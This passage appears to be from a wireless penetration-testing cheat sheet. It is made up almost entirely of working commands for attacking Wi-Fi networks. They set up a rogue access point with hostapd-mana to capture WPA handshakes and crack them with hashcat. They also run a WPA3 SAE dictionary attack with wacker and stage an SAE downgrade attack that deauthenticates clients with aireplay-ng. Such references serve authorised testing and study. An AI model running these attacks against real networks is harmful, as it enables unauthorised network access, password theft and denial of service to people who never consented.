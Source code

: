 ### Rogue AP for Unknown Networks

```bash
cat > hostapd.conf << EOF
interface=wlan1
driver=nl80211
hw_mode=g
channel=1
ssid=[TARGET_SSID]
mana_wpaout=hostapd.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
EOF

hostapd-mana hostapd.conf
# Wait for AP-STA-POSSIBLE-PSK-MISMATCH, then Ctrl+C

# Crack captured handshake
hashcat -a 0 -m 2500 hostapd.hccapx ~/rockyou-top100000.txt --force
```

## WPA3 SAE Attacks

### Direct SAE Attack

```bash
cd ~/tools/wacker
./wacker.py --wordlist ~/rockyou-top100000.txt --ssid [NETWORK_NAME] --bssid [AP_MAC] --interface wlan2 --freq [FREQUENCY]
```

### SAE Downgrade Attack

```bash
cat > hostapd-sae.conf << EOF
interface=wlan1
driver=nl80211
hw_mode=g
channel=[CHANNEL]
ssid=[NETWORK_NAME]
mana_wpaout=hostapd-downgrade.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
EOF

hostapd-mana hostapd-sae.conf &

# Deauth clients to force downgrade (if 802.11w disabled)
iwconfig wlan0mon channel [CHANNEL]
aireplay-ng wlan0mon -0 0 -a [AP_MAC] -c [CLIENT_MAC]
```
